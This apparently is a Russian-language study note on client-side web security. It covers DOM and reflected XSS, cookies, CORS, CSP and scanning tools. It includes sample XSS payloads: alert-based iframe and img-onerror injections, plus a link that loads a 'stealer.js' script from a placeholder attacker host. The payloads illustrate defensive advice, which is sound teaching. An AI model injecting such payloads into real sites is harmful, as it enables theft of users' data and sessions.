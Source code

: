 ### Безопасность клиентских веб приложений

1) Межсайтовый сприптинг (cross site scripting - XSS) - характеризуется обходом SOP (Same origin policy)
    - DOM-XSS Для фронтенд актуален тип атак DOM-XSS - когда скрипт встраивается в DOM через легитимный код.
    Требует наличия двух условий
        - sources (источники загружаемого вредоносногот кода)
            - document.URL, location, document.referer, window.name, localStorage, cookies
        - sinks - точки исполнения
            - eval, document.write, element.innerHTML, element.src, setTimeout/setInterval, execScript
        - Примеры
            ```js 
                <input value="">
                <iframe SRC="javascript:alert('XSS')"></iframe>
            или
                <input value=""><img src=i oneerror=alert('xss')>
          ```
    - Reflect XSS - Так же может быть проведен через пользовательские сообщения содержащие ссылки в Вашем приложении
(комментарии, сообщения - `http://forum.by?searchnews<\script%20src="http://hackersite/stealer.js`)
Анализ кода регулярками - перед отправкой на сервер другим клиентам
        - Фильтрация пользовательских форм - представление спецсимолов через escape символы, для ограждения
    от запуска скриптов
        - сантитаризация данных форм
2) Утечки информации - когда js/css файлы содержат информацию об инфраструктуре системы. Следить за тем чтобы
переменные не хранили секреты в открытом виде
3) Фреймворки и библиотеки - актуализация версий, анализ исходного кода библиотек
4) Cookies - включить http-only запрет доступа со стороны js
5) Сетевые запросы со стороны библиотек - мониторинг сетевых запросов
6) CORS - запрет на стороне сервера или ведение списка разрешенных ресурсов
7) WebSockets - нет нативной авторизации, использовать WSS
8) Отсутствие списка разрешенных ресурсов (Content Security Policy - CSP)
9) Flash - не использовать
10) Сохранение конфиденциальных данных в репозитории

#### Автоматизация процесса проверки безопасности
- анализ библиотек  npm audit, Snyk и LGTM
- использование анализаторов приложения при CI/CD
- ESLinit - security plugin
- Фреймворки (OpenVAS, Offensive Web Testing Framework, OWASP Xenotix XSS Exploit Framework)
- Online (CIRT.net, Grandel-Scan, Grabber, Acunetix, cWatch, Approof, SecurityHeaders.io, 
Observatory by Mozilla, One button scan)
- WebpackPlugins - прописывать CSP (html-webpack-plugin, html-webpack-exclude-assets-plugin, 
script-ext-html-webpack-plugin, csp-html-webpack-plugin и crypto, webpack-subresource-integrity-plugin)

Библиография
1) https://habr.com/ru/company/dsec/blog/259389/
2) https://habr.com/ru/company/jugru/blog/349630/
3) https://owasp.org/
4) https://habr.com/ru/post/445932/
